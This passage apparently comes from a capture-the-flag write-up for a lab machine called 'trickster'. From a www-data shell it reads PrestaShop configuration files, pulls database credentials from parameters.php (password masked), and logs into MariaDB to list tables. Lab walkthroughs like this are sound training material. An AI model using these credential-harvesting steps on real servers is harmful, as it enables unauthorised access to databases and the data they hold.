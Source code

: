 ```text
www-data@trickster:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@trickster:/$ 
```

### MySQL Creds

Trying to find database file on prestashop directory. Viewing a few files, we can find the following.

```console
www-data@trickster:~/prestashop/config$ cat config.inc.php
.
.
.
/* No settings file? goto installer... */
if (!file_exists(_PS_ROOT_DIR_ . '/app/config/parameters.yml') && !file_exists(_PS_ROOT_DIR_ . '/app/config/parameters.php')) {
    Tools::redirectToInstall();
}
.
.
. 
```
Got db creds on `/app/config/parameters.php`. `(Password is not shown)`

```text
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => '**********',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,    
```
Logging into database.
```console
www-data@trickster:~/prestashop/app/config$ mysql -u ps_user -p
mysql -u ps_user -p
Enter password:

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1189
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use prestashop
use prestashop
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [prestashop]> show tables;
show tables;
+-------------------------------------------------+
| Tables_in_prestashop                            |
+-------------------------------------------------+
```